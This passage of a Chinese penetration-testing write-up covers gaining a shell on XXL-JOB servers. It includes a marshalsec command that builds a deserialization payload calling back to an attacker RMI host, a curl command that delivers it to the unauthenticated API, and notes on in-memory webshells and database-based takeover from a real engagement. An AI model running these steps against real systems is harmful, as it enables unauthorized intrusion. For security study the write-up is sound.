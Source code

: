 # 二、api 未授权访问

在 xxl-job<=2.0.2 的时候 api 存在未授权访问，有两种方式可以 getshell。

## 1、利用 jndi 注入去打内存马

这个已经被人讲过好多次了，但是利用的前提就是需要出网，使用 marshalsec 去生成 payload

```plain
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian2 SpringAbstractBeanFactoryPointcutAdvisor rmi://x.x.x.x:1099/aaa > test.ser
```

再利用 curl 去发包即可，注意尽量使用 linux 或者 Windows 的 cmd 去发包，实测 Windows 下 powershell 发包可能会出现一些问题。

```plain
curl -XPOST -H "Content-Type: x-application/hessian" --data-binary @test.ser http://127.0.0.1:8080/xxl-job-admin/api
```

## 2、去利用 XSLT 去注入内存马

这个应该是最好使的方案，Nookipop 已经讲过了，在不出网时可以利用 XSLT 去打入内存马，进行命令执行，打入 suo5 内存马进行正向代理内网穿透。  
详见 [记一次曲折的 XXL-JOB API Hessian 反序列化到 Getshell](https://forum.butian.net/share/2592)

# 三、执行命令注入内存马

这种同样是不出网时才考虑的操作。注入的是 agent 内存马，这个利用的条件其实也有点苛刻，一般来说 xxl-job 的 executor 常常跑在 docker 环境下或者分布式部署。而要想注入 agent 类型的内存马就需要 admin 端和 executor 跑在一台主机下。方法就是使用 echo 方法或者 java 的写入文件的方法将 agent 内存马写到目标主机上，然后在进行加载。具体利用方法可参照。[XXL-JOB 深度利用](https://mp.weixin.qq.com/s/8KZzBEX36noXBGFlWa1UQQ)

# 四、奇技淫巧 - 从数据库 getShell

这也是实战中遇到的一个案例，目标单位存在一个 nacos 的身份伪造漏洞，获取到了数据库的配置文件，成功的连上了数据库，当然我们可以去尝试 udf 提权或者猜目录去写马，但我发现数据库中存在 xxl\_job 的数据库，这时候其实就有更多的方法去 getshell。  
[![](assets/1709169576-889263bb6a62176cd42724aa501e905b.png)](https://cdn.nlark.com/yuque/0/2023/png/29650981/1701872105079-8fc72a7b-ad61-4bdb-a44a-1d2b5a31afca.png#averageHue=%23f8f4f3&clientId=uf7a707aa-6606-4&from=paste&height=115&id=ud4f2bce6&originHeight=229&originWidth=1239&originalType=binary&ratio=2&rotation=0&showTitle=false&size=27809&status=done&style=none&taskId=u38cee782-6cbb-4e60-84a2-8af7f4c9d12&title=&width=619.5)  
[![](assets/1709169576-1a45cc9e1bb61d5a3082ca923201ae04.png)](https://cdn.nlark.com/yuque/0/2023/png/29650981/1701872177278-ee651421-c3b9-4c8b-891d-e8f5cac461fa.png#averageHue=%23f8f7f7&clientId=uf7a707aa-6606-4&from=paste&height=245&id=ifgia&originHeight=489&originWidth=2065&originalType=binary&ratio=2&rotation=0&showTitle=false&size=66076&status=done&style=none&taskId=uae34a256-5921-462a-b15a-f6851ccff86&title=&width=1032.5)  
这时候通常有两种利用方式:1、获取到 xxl-job 的密码，登入 xxl-job 去写计划任务进行命令执行 getshell。2、直接通过往数据库里写内容进行 getshell。
